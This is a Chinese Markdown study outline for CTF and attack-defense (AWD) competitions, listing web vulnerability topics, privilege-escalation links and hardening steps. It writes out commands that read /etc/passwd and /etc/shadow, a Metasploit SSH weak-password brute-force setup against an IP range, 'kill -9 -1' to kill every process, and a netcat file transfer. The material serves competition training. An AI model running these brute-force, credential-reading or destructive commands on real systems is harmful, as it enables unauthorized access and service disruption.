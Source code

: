 # 第二阶段
1. web
    + 文件包含
    + [文件上传(一句话木马)](../web/文件上传漏洞.md)
    + [命令注入(必考)](../web/命令注入.md)
    + [php反序列化(可能)](../web/反序列化.md)
    + python脚本补全(threading,socket,os,requests,scapy,optparse模块一定要掌握)
    + php代码审计(危险函数的绕过与利用)
2. pwn
3. 杂项(例如图片隐写，压缩包分离，爆破，伪加密，流量分析等等，不考复杂的，但是必须要多刷)
4. 密码学(熟练掌握base64在kali之中的转换，md5的输出以及文件md5的校验查看，看得懂base32，ascii，十进制十六进制的转换等等)
5. 其他
    + tcp协议
    + 等保2.0
    + linux各个应用端口，例如mysql是3306端口，http是80，ssh是22等等
    + [windows提权](../web/windows提权.md)
7. [常用命令](./命令.md)    (很重要，一定要掌握)
# 第三阶段
1. 
- 查看是否在sudo组内
```
cat /etc/group|grep sudo
```

- 查看存在的用户
```
cat /etc/passwd|grep sh$
cat /etc/shadow
把第一个找到的结果与第二个存在密码的一对比就出来了
```
- 弱口令利用
```
msfconsole
search ssh_login
use auxiliary/scanner/ssh/ssh_login
set username admin  //也可以set user_file 文件名
set password 123456 //也可以set pass_file 文件名
set threads 1000
set rhosts 172.16.1-100.1
run
运行完成之后会出现多个会话，这个时候我们只需要切换会话而不需要一个个ssh链接
sessions
sessions -i id
ctrl+z  //切换后台
```
- 干掉反弹shell
```
ps -ef / px -aux
```

- 查看所有进程
```
netstat -apnt
关闭进程
kill -9 -1111   #pid，不是端口
关闭所有进程
kill -9 -1
```

2. 查找系统后门,查找完之后根据情况编写脚本.

+ 查找后缀为"*.php"的里面有eval的，又或者是其他危险函数，例如include(),exec(),unserialize,system()等等，如果有则进行逐一排查，为防止check扣分可以将危险函数进行注释
    + 查找命令`find / -name "*.php"|xargs grep "eval("`
    + 替换命令`find ./ -name '*.php'|xargs perl -pi -e 's|eval|#eval|g'`
+ [python2脚本与waf](./awd脚本.md)
+ 如果有nc直接关闭nc或者自己监听自己
3. 如果是低权
    + 首先根据上面漏洞编写批量获取flag的python脚本
    + 提权
        + [suid提权](../web/linux提权/suid提权.md)
        + [定时任务提权](../web/linux提权/定时任务提权.md)
        + [msf提权](../web/linux提权/msf提权.md)
        + [sudo提权](../web/linux提权/sudo提权.md)
        + sudo su root
4. 如果是高权
    + 查看可疑的弱口令用户,对其密码进行修改或者删除用户
    ```
    userdel 删除用户名
    ```
    + 如果有不死马直接使用条件竞争删除,[链接](./不死马.md)，间隔中间直接`kill -9 -1`或者重启系统,查看不死马进程号`ps auxww|grep php`,杀死进程`kill -9 -进程号`,当然最好的方式直接创建同名文件夹就可以了,多试几次就可以了，当然这些的前提就是你有权限能够在这下面创建文件
    ```shell
    mkdir 不死马名字|rm -rf 不死马名字
    ```

5. 其他
+ linux之间的文件传输
    + scp(前提条件开启ssh)
    ```
    scp 文件路径 登录用户名@ip地址:路径
    例如
    scp ./flag.png a@192.168.250.112:/home/a/Desktop/
    ```
    + nc
    ```
    接收方nc -l 4444 > 1.txt
    发送方nc 192.168.1.1 4444 < 1.txt
    ```
+ linux与windows文件传输可以使用xftp
